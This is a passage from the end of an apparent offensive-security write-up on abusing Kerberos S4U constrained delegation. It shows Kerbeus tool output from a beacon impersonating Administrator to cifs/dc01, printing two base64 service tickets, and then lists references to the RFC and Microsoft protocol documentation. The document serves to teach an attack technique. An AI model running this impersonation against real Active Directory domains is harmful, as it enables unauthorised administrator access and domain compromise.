QKhFTATGwZrcmJ0Z3QbCUxPTC5MT0NBTA== /service:cifs/dc01 /impersonateuser:Administrator
[+] Kerbeus S4U by RalfHacker
[+] host called home, sent: 69064 bytes
[+] received output:
[*] Action: S4U

[*] Building S4U2self request for: 'SRV02$@LOL.LOCAL'
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'SRV02$@LOL.LOCAL'
[*] base64(ticket.kirbi):

doIFRDCCBUCgAwIBBaEDAgEWooIEWDCCBFRhggRQMIIETKADAgEFoQsbCUxPTC5MT0NBTKITMBGgAwIBAaEKMAgbBlNSVjAyJKOCBCEwggQdoAMCARKhAwIBBaKCBA8EggQLd3XB04adbabEYJyunHuX0HLK7FbqZt/nez1j9mlFUfIwnrr6yz2tiTOCWiXu37aS3dejGHfq3JgXiB/Cl9iQ5zo5HnVKtzcRwepWVY1jc3fLi2iyk/d+y9QreGWBP+S3QsBQTXNZjxGL1itFyYCsHriUL1MNxslRm05j9M/sTZKviiFlzt7ptM9FQBKUH+W1w2+m1WdoK6ys3B9SqCqKNP5NrkiCf+40w4DmrdA35ZkJ+a4ED5Y9C2zTy/qRHUqbZvhdkHeA0fpm09ZIdKJLSdHfpNzmIbNoyEY7hlBnfgYYaemG8GREIM2uZ6ScBDhsL2KkXyNy7RTRchUsKLC2Y9pVoSb8UpB7B57q0r76fYkdaqChfF/Goy2r/Eh4lnN0NDt9WPYF4eHyjDvUdCgA19/qoUJb3kPCs59+jRFimo2sONbVvueyU0Uopt7cyBm1sc+HYTF2lU71Dqos0NupjVolbn6hBYrM+Z5ajNKyXuHdcwBHkoPLLjwjBZ3YkXYiL7qURPkDTO++LD/WSbbHkuv5ZmeI7qzM3Oh5SS037kZ++lU93FsLGOd5px8ZJWaHg6ce0Bbv6m73omR5HkN2HjIoVS/HEY3sQXop/fPpl8fFePxRpFk4JRbZMsW/0anLj0n0EG/P+sPXpPU8jAxaq1Ch3NUbOAuTT3NF1ILiWvT2w03061/Y+jQApCX+xvR+8STid0U2H5Bn2Zz09y5AUHS7z9ibWNkDFqWlncRfMY87McoEa0qr1QWTuowW4Ybzp8Hh+PHf2iIZSdMbpprElECPX8SUzGCPC8ZYlprjZ8KrY8mfPFoA0z1Vf7pPUVZ+iyMBY9l0zSJsW5XbAGrTtU81cj0Sh8m8wcaVuwDEa6pv9ui+TDoWhB7GpbeK1g+EuIWogJJgF7WdFgLjqo0oFKRI2XFjIKx3c4LUE39WMwb/cKe54+qzIAS/r9jHc0bZQKZdjJ4r3uj90rTPCisYXif9+W3J1E6cRNhjHKIkmlck4gTFvc3PtF7PNuSPxtWly78l5OXS+zuu59TebCUhucLM8Nh1w32qGqgZCVI60HXAnniGbUQnCSEvHa6K+17iN9bwRmVjVHzPg8jDpohaY0L8mJ4qF7REVWPfO6Pr1YaSr2+Zd7A2fO9Hu+SFoemtAeq9HrpucAZM+Y4Wr+Du4bfnYBsF3TW3Dkji1BhVrKmbbQeC3E/NZmB/vcWyOqwndpw8R4t+XvhUFKXXaU1HTWLcIXPsUWkJu5OrBLSunEp/4b8fn1dvJxlUdQjCm9KFgmctPEVsDUknejPkyWLx47VuSZpYV6I9CQ7fsn2h9q64aQ9ROYNtpqWydPtPWc67W4iQwjCJjMf49bMnopnJzknJjcQq5DqwkeC0o4HXMIHUoAMCAQCigcwEgcl9gcYwgcOggcAwgb0wgbqgKzApoAMCARKhIgQge9sbIjaB4WXuExLC2Vaqu3MFJWF5CLsdkszFmyQQq/KhCxsJTE9MLkxPQ0FMohowGKADAgEKoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKEAAKURGA8yMDI2MDMyODIwNDQyOFqmERgPMjAyNjAzMjkwNjQyNDhapxEYDzIwMjYwMzI5MjA0NDM0WqgLGwlMT0wuTE9DQUypEzARoAMCAQGhCjAIGwZTUlYwMiQ=

[*] Impersonating user 'Administrator' to target SPN 'cifs/dc01'
[*] Building S4U2proxy request for service: 'cifs/dc01'
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01':

doIFvDCCBbigAwIBBaEDAgEWooIE3DCCBNhhggTUMIIE0KADAgEFoQsbCUxPTC5MT0NBTKIXMBWgAwIBAqEOMAwbBGNpZnMbBGRjMDGjggShMIIEnaADAgESoQMCAQmiggSPBIIEiyD7sXBzid/44gLaARwkcEpkxAyU0/C1BeE2IKVcDGHDVqXY/KszzPJOAadyIO2Jr/cY5UraNdigaMQpsStAWtpIxhhBhgVSnK/oZ0INxfHDfYgjEAKtF04W5meqCHvIYzsvxvqEu4uvcgz+SEg9FWN9etAQlzVPgaGcKJxcX419nppm1XDVnoYE0+n1c0iLtUfT6sdQQiaGc948XSuSXZ//n4CsgnRqstkhaLxTvuBnpDH1IaKaNAnNQd+6+bYD6ViBqU5M6UMFn+83AgmVRlH9ogUH4Ambhy/Oe/6266WCx8H6c/WhcPy5QVwqxXvo0DmbZ2UsqyKKuHiU9rHfvzf0spvfOSSwg/iKoODZcUUEF4Ie2xB6joNzb9J7w/OI2hQCepN0ek2AhNxNWIQ3d14bDdxSTbL5LU7eh1zxv5+J54UrrEZR/7tv05Wjajl00zw5DOBtnPFDx/lFwveS+20OC1Hs0XpKFJ3D07xWnhlax/V0f+Gd8ONIu57iCXAjtOQQzDUTEqee8+SrQIeeKIQNwZ6oPT/XCyLoY5bhYNNl7F7jzaAUIkzh5xwJ4BZkCOO0taAhIG8IBVGJWW01/nbVL/dqsYDJPg/kT8vluYlrYdrrQ1efNgknvfgkd4luWFOzWfIEXP7jrufwpDchGWfHGEtdv3DB4GK77dzjv337hIyCzVUfZEUNjJA5+4GPF/cW4UXkjX7cdjgr1/qpVNgncWFx8PPx1iKp5UQ8bTEJsZUYJxWs0GVHnuO6QXYITRPfm7KsxYLHW+ryLQrJ3QG7cCSl+tvnjv7YOXV9cOQmUAuPu0dvkM9GDh3wbsaEaaYdFQKMhxy0vttvTSIAIvr8gCh42y2D47q+MfJqDmrFQZRqx96V3ePRUu0butfovkWXWuTF50gCnIY2hK1qgscMC3VJbhFZ8grQAn9SVJFAKj833kfIq+PooEeqLXZVbpJ52uKs2NZ9bLc2uU2eTFrJ8Rb2FMNaRE7y8zXNs4hnes92TtaxwPBdfqBtElcHfZbJgr9sZimZTiZ1CpmlRol1KtPIghDx+5Qg1w/5tCYHklBPQxuEeIpSYlXRtxCMpOSYxMpq6DmQI7MCwBQ3R7y/hTCd67M4ToBriaK6CF6Vsq77JqiGC8Yc5UBVcdeiYrler1wwO2loxoA5EZVRsQg+JIfvt6kwSJVm0aw7fO2aSvDivRK+BeOahCRKylss5X/eAeNeEYbm3zGmvQLlf9GcZkGy2bjm9RAr5TgJvRgyNVdW/v6g+XOb4bBaNRQ3FNWe2Ay2o4jpxo8uViMvfdrs9ooOfAcMVq0tu0x8sL9QpRpm7SUBLj9FqmVYmnESya0ihH/w1K9rEl5ps3+IZo1tGJJgxPIxkJ3GQVvr9hfzB/gKnwxVlwRNVa+o+RseAes/9RfadQOtHBVG+farLPJBhtBp01wDWbNxRuadpsA0WHHV/Kqu6Q5AaHvLg0zwXLLAu3+3TyvnpqOpxmX0HWy4pRbkJ9cLYGlnKae+o265E5aNFGEXL78B55bEs9eQDaaNwG3+LsxwVx72o4HLMIHIoAMCAQCigcAEgb19gbowgbeggbQwgbEwga6gGzAZoAMCARGhEgQQWzqd+1TIrytlekaV5BYQEqELGwlMT0wuTE9DQUyiGjAYoAMCAQqhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBApQAApREYDzIwMjYwMzI4MjA0NDI4WqYRGA8yMDI2MDMyODIxNDQzNFqnERgPMjAyNjA0MDQyMDQyNDhaqAsbCUxPTC5MT0NBTKkXMBWgAwIBAqEOMAwbBGNpZnMbBGRjMDE=
```
and then use the TGS.


---

## Refrences / Footnote


[rfc4120](https://datatracker.ietf.org/doc/html/rfc4120)
[Kerberos Protocol Extensions: Service for User and Constrained Delegation Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)

[^blog]: [Windows authentication attacks part 2 – kerberos](https://blog.redforce.io/windows-authentication-attacks-part-2-kerberos/)
[^protected]: [Protected Users security group](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)
[^ntlm]: [Windows authentication attacks – part 1](https://blog.redforce.io/windows-authentication-attacks-part-2-kerberos/)
[^PA-FOR-USER]: [PA-FOR-USER Checksum function](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/aceb70de-40f0-4409-87fa-df00ca145f5a)
